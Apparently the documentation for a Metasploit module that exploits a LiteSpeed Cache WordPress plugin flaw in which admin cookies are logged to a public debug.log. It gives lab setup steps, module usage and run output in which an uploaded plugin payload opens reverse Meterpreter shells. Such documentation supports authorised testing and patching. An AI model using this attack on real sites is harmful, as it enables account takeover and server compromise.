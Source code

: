 ## Vulnerable Application
This module exploits an unauthenticated account takeover vulnerability in LiteSpeed Cache, a Wordpress plugin that currently
has around 6 million active installations. In LiteSpeed Cache versions prior to 6.5.0.1, when the Debug Logging
feature is enabled, the plugin will log admin cookies to the /wp-content/debug.log endpoint which is accessible
without authentication. The Debug Logging feature in the plugin is not enabled by default. The admin cookies
found in the debug.log can be used to upload and execute a malicious plugin containing a payload.

### Setup
Spin up a WordPress container with the following docker-compose file:
```yml
version: '3.8'

services:
  db:
    image: mysql:latest
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_password
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress_user
      MYSQL_PASSWORD: example_password

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress_user
      WORDPRESS_DB_PASSWORD: example_password
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
```

Download, install and activate the vulnerable LiteSpeed Cache plugin: https://downloads.wordpress.org/plugin/litespeed-cache.6.3.zip
Once installed a LiteSpeed menu bar item should appear on the left hand side of the application. When clicked a drop down
should appear. Select "ToolBox", then select "Debug Settings". Then switch the "Debug Log" feature to "On".

Sign out of WordPress and when you reauthenticate your admin cookie will be logged to /wp-content/debug.log

## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/wp_litespeed_cookie_theft`
1. Set the `RHOST`, `LHOST` and `RPORT`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress site.

## Scenarios
### ARCH_PHP Target - LiteSpeed Cache 6.3 - WordPress 6.4.3

```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > run

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qSNzhabMTP/OiDynMUetY.php...
[*] Sending stage (39927 bytes) to 192.168.1.67
[+] Deleted OiDynMUetY.php
[+] Deleted qSNzhabMTP.php
[+] Deleted ../qSNzhabMTP
[*] Meterpreter session 7 opened (192.168.1.67:4444 -> 192.168.1.67:64935) at 2024-09-11 23:18:14 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 29292f368fe3
OS          : Linux 29292f368fe3 6.10.4-linuxkit #1 SMP PREEMPT_DYNAMIC Mon Aug 12 08:48:58 UTC 2024 x86_64
Meterpreter : php/linux
```

### ARCH_CMD Target - LiteSpeed Cache 6.3 - WordPress 6.4.3

```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > run

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/IVStOPtwuq/WvXecICkgw.php...
[*] Sending stage (3045380 bytes) to 192.168.1.67
[+] Deleted WvXecICkgw.php
[+] Deleted IVStOPtwuq.php
[+] Deleted ../IVStOPtwuq
[*] Meterpreter session 6 opened (192.168.1.67:4444 -> 192.168.1.67:64884) at 2024-09-11 23:14:49 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.22.0.3
OS           : Debian 12.5 (Linux 6.10.4-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
